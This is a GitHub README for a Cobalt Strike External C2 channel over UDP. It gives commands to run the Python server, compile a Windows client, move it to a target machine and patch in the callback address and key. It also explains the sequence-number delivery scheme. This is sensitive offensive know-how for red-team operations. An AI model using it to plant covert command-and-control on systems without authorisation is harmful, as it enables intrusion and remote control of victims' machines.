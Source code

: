 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and PyCryptodome

> pip3 install pycryptodome

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Timeout] [Retries] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client. (128 bit is 16 characters)
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x64 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c aes.c base64.c -lws2_32 -static

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [Retries] -g [Key]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.
- [Timeout] is the number of seconds to set the socket timeout to.
- [Retries] is the number of times to retry listening for a connection after a timeout occurs.
- [Key] AES key to encrypt the beacon that is initially sent. It must be the same as the client.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The packet max size is defined in the code. It is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

The timeout is defined by the operator. It is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- If the server goes down, due to trying to maintain reliability through packet drop, the client will continue sending packet retransmissions to the dead IP address until the retries counter is hit.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be added as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea is to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Roll over the sequence number once it reaches its max.
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.

